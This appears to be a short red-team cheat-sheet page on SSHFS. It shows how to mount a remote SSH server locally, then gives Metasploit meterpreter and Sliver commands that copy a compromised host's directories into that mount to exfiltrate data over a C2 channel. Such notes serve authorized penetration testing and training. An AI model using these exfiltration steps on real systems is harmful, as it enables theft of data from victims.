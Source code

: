 # SSHFS

Search Tag(s): #post-exploitation #file-transfer-and-data-exfiltration #ssh #linux

## 01 - Usage

- Mount SSH server as a filesystem

```
$ sudo mkdir /mnt/ssh_filesystem && sudo chown $USER:$USER /mnt/ssh_filesystem/

$ sshfs <username>@<IP>:/path/to/remote/directory/ /mnt/ssh_filesystem/ -C [-p <PORT>]
```

- To unmount the filesystem

`$ fusermount -u /mnt/ssh_filesystem/`

## 02 - Use Cases

### 2.1 - Exfiltration over C2 channel

#### 2.1.1 - Metasploit

`meterpreter > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/`

#### 2.1.2 - Sliver

`sliver (IMPLANT NAME) > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/`

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/06 - File Transfer and Data Exfiltration/General/C2 Frameworks/Metasploit|Metasploit: Data Exfiltration]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/06 - File Transfer and Data Exfiltration/General/C2 Frameworks/Sliver|Sliver: Data Exfiltration]]